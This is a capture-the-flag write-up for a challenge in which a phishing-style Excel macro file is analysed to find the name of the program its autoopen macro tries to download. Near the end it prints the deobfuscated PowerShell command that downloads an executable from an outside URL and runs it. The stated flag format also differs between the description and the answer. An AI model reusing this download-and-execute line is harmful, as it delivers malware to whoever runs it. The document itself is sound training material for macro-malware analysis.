 

## Fruit Deals  	

### Infos About challenge : 

![](Screenshot/P1.png)




### Description : 

##### I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

##### The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though


## solution:



### step 1 : Open Deals.xlsm 



![](Screenshot/P2.png)

##### You notice that That have error everywhere 

##### After doing some Research about caracterstique of .xlsm file I found macros 


### step 2 : Open The macros Code and Reverse it 

##### you can Have the list of macros by Click on Developer button in uppbar if you don't have it enable devloper mode in the seetings 



![](Screenshot/P20.png)

#### After that click on Macros



![](Screenshot/P3.png)


#### When you try to run autoopen macros , It Open a youtube video 

### So we should click On Edit Button not Run 

![](Screenshot/P4.png)


### You can notice that the macros is open an Url and download an program before opening The Youtube Url 

![](Screenshot/P5.png)


### Step 3 : Find the name of file that is downloaded 


#### To do this we should debug the macro and make Break point in the line after of this line  
#### f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + ...............

![](Screenshot/P6.png)



### Now Just open the locals windows in View list 

![](Screenshot/P7.png)


### So you can notive the the file name of the programme downloaded is in the "CNTA" 

#### f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""


### Congratulation the name of the program is : banANA-Hakrz09182afd4.exe 




### Flag:

### Spark{banANA-Hakrz09182afd4.exe}
